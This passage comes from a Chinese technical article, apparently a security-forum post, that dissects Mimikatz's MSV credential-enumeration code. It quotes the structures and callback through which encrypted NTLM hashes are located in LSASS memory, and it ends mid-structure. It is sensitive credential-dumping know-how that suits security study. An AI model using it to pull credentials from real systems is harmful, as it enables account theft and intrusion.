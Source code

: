 ```c++
typedef struct _KIWI_MSV1_0_CREDENTIALS {
    struct _KIWI_MSV1_0_CREDENTIALS *next;
    DWORD AuthenticationPackageId;
    PKIWI_MSV1_0_PRIMARY_CREDENTIALS PrimaryCredentials;
} KIWI_MSV1_0_CREDENTIALS, *PKIWI_MSV1_0_CREDENTIALS;
```

`KIWI_MSV1_0_CREDENTIALS` 的 `0x10` 偏移量处的 `PrimaryCredentials` 是一个指向 `KIWI_MSV1_0_PRIMARY_CREDENTIALS` 结构体的指针，其声明如下。

```c++
typedef struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS {
    struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS *next;
    ANSI_STRING Primary;    // 'Primary'
    LSA_UNICODE_STRING Credentials;
} KIWI_MSV1_0_PRIMARY_CREDENTIALS, *PKIWI_MSV1_0_PRIMARY_CREDENTIALS;
```

其中 `Primary` 的值是一个签名字符串 ”Primary“，类似于 `KIWI_BCRYPT_HANDLE_KEY` 中的 `tag`，这可以在内存中看到，如下图所示。而 `Credentials` 中就保存了加密的用户哈希凭据，该结构中的 `Buffer` 指向缓存凭据的内存地址。

![image-20221218130304106](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-b5dfdfdddb45a556a5d5c2394cbbe7931a033697.png)

回到 `kuhl_m_sekurlsa_msv_enum_cred()` 函数中，经过几次 `kull_m_memory_copy()` 调用后，将 `&amp;primaryCredentials` 和 `credentials.AuthenticationPackageId` 传入回调函数，在这里是 `kuhl_m_sekurlsa_msv_enum_cred_callback_std()` 函数，该函数定义如下。

```c++
BOOL CALLBACK kuhl_m_sekurlsa_msv_enum_cred_callback_std(IN PKUHL_M_SEKURLSA_CONTEXT cLsass, IN PKIWI_MSV1_0_PRIMARY_CREDENTIALS pCredentials, IN DWORD AuthenticationPackageId, IN PKULL_M_MEMORY_ADDRESS origBufferAddress, IN OPTIONAL LPVOID pOptionalData)
{
    DWORD flags = KUHL_SEKURLSA_CREDS_DISPLAY_CREDENTIAL;
    kprintf(L"\n\t [%08x] %Z", AuthenticationPackageId, &amp;pCredentials-&gt;Primary);
    if(RtlEqualString(&amp;pCredentials-&gt;Primary, &amp;PRIMARY_STRING, FALSE))    // 进入
        flags |= KUHL_SEKURLSA_CREDS_DISPLAY_PRIMARY;
    else if(RtlEqualString(&amp;pCredentials-&gt;Primary, &amp;CREDENTIALKEYS_STRING, FALSE))
        flags |= KUHL_SEKURLSA_CREDS_DISPLAY_CREDENTIALKEY;
    kuhl_m_sekurlsa_genericCredsOutput((PKIWI_GENERIC_PRIMARY_CREDENTIAL) &amp;pCredentials-&gt;Credentials, (PKIWI_BASIC_SECURITY_LOGON_SESSION_DATA) pOptionalData, flags);
    return TRUE;
}
```

首先根据 `PrimaryCredentials` 结构中的 `Primary` 类型设置 `flags` 值，接着将 `PrimaryCredentials` 中的 `Credentials` 传入 `kuhl_m_sekurlsa_genericCredsOutput()` 函数。

`Credentials` 中 `Buffer` 指向缓存凭据的加密内存，该内存解密后的结构因系统版本而异，在 Windows 10 x64 1903 系统中的结构如下。

```c++
typedef struct _MSV1_0_PRIMARY_CREDENTIAL_10_1607 {
    LSA_UNICODE_STRING LogonDomainName; 
    LSA_UNICODE_STRING UserName;
    PVOID pNtlmCredIsoInProc;
    BOOLEAN isIso;
    BOOLEAN isNtOwfPassword;
    BOOLEAN isLmOwfPassword;
    BOOLEAN isShaOwPassword;
    BOOLEAN isDPAPIProtected;
    BYTE align0;
    BYTE align1;
    BYTE align2;
    DWORD unkD; // 1/2
    #pragma pack(push, 2)
    WORD isoSize;  // 0000
    BYTE DPAPIProtected[LM_NTLM_HASH_LENGTH];
    DWORD align3; // 00000000
```
